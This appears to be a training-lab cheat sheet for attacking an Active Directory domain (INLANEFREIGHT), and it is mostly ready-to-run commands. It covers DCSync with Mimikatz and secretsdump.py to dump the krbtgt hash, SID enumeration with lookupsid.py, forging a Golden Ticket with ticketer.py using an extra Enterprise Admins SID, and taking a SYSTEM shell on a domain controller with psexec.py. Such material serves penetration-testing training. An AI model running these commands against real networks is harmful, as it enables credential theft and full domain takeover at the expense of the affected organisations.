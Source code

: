 #### Performing a DCSync Attack
```PowerShell
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```
Uses `Mimikatz` to perform a DCSync attack from a Windows-based host.

### From Linux

#### Performing DCSync with secretsdump.py
```Shell
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```
Impacket tool used to perform a DCSync attack from a Linux-based host.

#### Performing SID Brute Forcing using lookupsid.py
```Shell
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240
```
Impacket tool used to perform a `SID Brute forcing` attack from a Linux-based host.

#### Looking for the Domain SID
```Shell
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```
Impacket tool used to retrieve the SID of a target Windows domain from a Linux-based host.

#### Grabbing the Domain SID & Attaching to Enterprise Admin's RID
```Shell
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```
Impacket tool used to retrieve the `SID` of a target Windows domain and attach it to the Enterprise Admin group's `RID` from a Linux-based host.

#### Constructing a Golden Ticket using ticketer.py
```Shell
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```
Impacket tool used to create a `Golden Ticket` from a Linux-based host.

#### Setting the KRB5CCNAME Environment Variable
```Shell
export KRB5CCNAME=hacker.ccache
```
Used to set the `KRB5CCNAME Environment Variable` from a Linux-based host.

#### Getting a SYSTEM shell using Impacket's psexec.py
```Shell
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```
Impacket tool used to establish a shell session with a target Domain Controller from a Linux-based host.
